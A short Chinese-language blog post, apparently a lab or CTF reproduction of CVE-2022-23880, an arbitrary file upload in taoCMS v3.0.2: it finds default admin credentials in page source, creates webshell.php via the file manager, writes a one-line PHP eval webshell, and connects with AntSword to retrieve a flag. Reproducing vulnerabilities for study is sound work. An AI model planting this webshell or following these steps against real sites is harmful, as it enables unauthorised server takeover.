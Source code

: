 ```yaml
---
title: CVE-2022-23880
subtitle:
date: 2025-03-14T14:14:06+08:00
slug: 35608d4
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - CVE
categories:
  - 复现
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: true
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->



![](images/a6f03e544d5ca46e09def5aca5fb9189.png)
taoCMS v3.0.2任意文件上传

![](images/47dd24950e9425573d1042defff4e7a2.png)
进入点击管理，F12查看源码，发现

![](images/1cffc7be416cce565b6747a4af7e3d06.png)
默认账号密码，尝试登陆

![](images/d1e95e841095d90f80cdaa68585ac6c1.png)
文件管理处，新建webshell.php文件，

![](images/11114c589e675274425a76a2d6842e3a.png)
写入一句话木马

```
<?php @eval($_POST['t1ng']);?>
```

右键复制链接

![](images/1a81a7c4d1cb7d180896dd2617e2c7dd.png)
蚁剑连接

![](images/cdbbc79285cd3fd93f7f2f4bedf30a50.png)
拿到flag

![](images/61bf2aed9225f01efa7ee4d03f10e37e.png)
